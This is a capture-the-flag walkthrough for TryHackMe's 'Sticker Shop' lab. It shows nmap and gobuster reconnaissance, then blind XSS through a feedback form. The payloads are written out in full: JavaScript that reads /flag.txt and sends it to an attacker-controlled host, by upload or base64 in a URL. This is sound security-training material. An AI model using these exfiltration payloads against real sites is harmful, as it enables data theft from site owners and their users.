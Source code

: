 # The Sticker Shop Walkthrough
<br/>

## Intro
Welcome into the Sticker Shop challenge, here is the link of the [room](https://tryhackme.com/r/room/thestickershop) on TryHackMe.
Here we are gonna be practicing with a very well known type of web-apps vulnerabilities, preatty straight after finding on which port the app is hosted we will need to take advantage of this OWASP top 10 vuln to read the flag.


Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!



<br/>
<br/>

## The Challenge
Let's begin with a port scan with nmap:
```bash
nmap -sV MACHINE_IP
```

We can quickly find out that port 22 and 8080 is open and there is hosted a website selling cat's stickers.

Now here i went for directory scan to uncover any hidden ones:
```bash
gobuster dir -u http://MACHINE_IP:8080/ -w /usr/share/dirb/wordlists/common.txt
```

But this gave me no hits.

Let's try now to check if there are any subdomains:
```bash
gobuster vhost -u http://MACHINE_IP:8080  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 50 --append-domain
```
and
```bash
gobuster dns -d stickershop.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 50
```

No hits again.

Our job is to red the text file located at `http://MACHINE_IP:8080/flag.txt`, obviously if we navigate straight to it we get a 401 Unauthorized error.

With further investigation we can spot that the web app is running on `Werkzeug/3.0.1 Python/3.8.10`.

Finally navigating the website we can see that there is a Feedback page with a form, where we can send a message.
Thinks looks interesting, every point where an user can submit some data is dangerous if not properly handled and sanitized, let's test it for some common vulnerabilities.

Sending some common JS payloads like:
```js
<script>alert("test")</script>
```

Does not product any visible output to us, we always get the same message that our feedback has been sent.
What is we can test it in another way, like injecting JS to ping our machine, if we get the ping this means that the form is vulnerable to XSS.

So on our machine let's create an empty file:
```bash
touch test.txt
```

Now start up an http server:
```
python3 -m http.server
```

Now we can submit a JS code like this one, which will fetch the test file, if it works we will see the log in our console:
```js
<script>
fetch('http://YOUR_IP:8000/test.txt')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Failed to retrieve file'));

</script>
```

It works!
In fact we get:
```
MACHINE_IP - - [16/Jan/2025 16:58:02] "GET /test.txt HTTP/1.1" 200 -
```

This mean we can now craft a proper payload to get the flag file and send it to our machine:
```js
<script>
fetch('/flag.txt')
  .then(response => response.blob())
  .then(blob => {
    const formData = new FormData();
    formData.append('files', blob, 'flag.txt');
    fetch('http://YOUR_IP:8000/upload', {
      method: 'POST',
      body: formData
    })
  })
</script>
```

Before sending it we need an upload server on our machine:
```bash
pip3 install uploadserver
```

```bash
python3 -m uploadserver
```

You should see in the logs a successful upload:
```
MACHINE_IP - - [16/Jan/2025 17:47:49] [Uploaded] "flag.txt" --> TryHackMe/The_Sticker_Shop/flag (21).txt
```

Finally read the file content:
```bash
cat flag.txt
```


<br/>

### Other Options
There are obviously other ways to solve the challenge, one is avoid the file upload and use only the server logs:

On your machine start either an upload or download http server with python (depending on the one you choose the payload will have a small variation, the request method)
```bash
python3 -m http.server
```
or
```bash
python3 -m uploadserver
```

Craft a JS payload which will read the flag content, encode it into base64 and send it to your terminal log:
```js
<script>
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://YOUR_IP:8000/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```
or
```js
<script>
fetch('/flag.txt')
  .then(response => response.text())
  .then(text => {
    fetch('http://YOUR_IP:8000/' + btoa(text), {mode:'no-cors'});
  })
  .catch(error => console.error('Failed to retrieve flag'));
</script>
```

Your should see something like this:
```
MACHINE_IP - - [16/Jan/2025 17:24:12] "GET /REDACTED_ENCODED_FLAG HTTP/1.1" 404 -
```

Now you can send the payload and you will receive the base 64 data in your terminal, you can than take the flag and decode it:
```bash
echo "REDACTED_ENCODED_FLAG" | base64 -d                                     
```

<br/>
<br/>

I encourage you to find choose/find the method that best fits you, personally i like to have things saved in files in case they might come useful + i do not have to do any copy paste from the terminal like this.

Hope you had fun exploiting this machine and learned some new things following along.

Catch you in the next CTF 😃 
